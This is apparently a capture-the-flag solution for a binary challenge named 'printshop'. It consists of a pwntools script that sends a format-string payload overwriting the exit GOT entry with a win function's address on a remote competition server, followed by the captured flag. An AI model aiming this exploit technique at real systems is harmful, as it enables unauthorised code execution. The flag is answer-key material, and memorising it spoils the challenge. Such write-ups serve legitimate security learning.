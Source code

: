 # solver.py

```py
from pwn import *

binary = './printshop'

e = context.binary = ELF(binary)
r = ROP(e)

r = remote('chal.pctf.competitivecyber.club', 7997)
# r = process('./printshop')

payload_writes = {
    e.got['exit']: e.sym['win']
}

r.recvuntil(b'>> ')

payload = fmtstr_payload(6, payload_writes, write_size='short')
r.sendline(payload)

r.recv()
r.recv()
print(r.recv())
```

# FLAG

**`PCTF{b4by_f0rm4t_wr1t3_6344792}`**




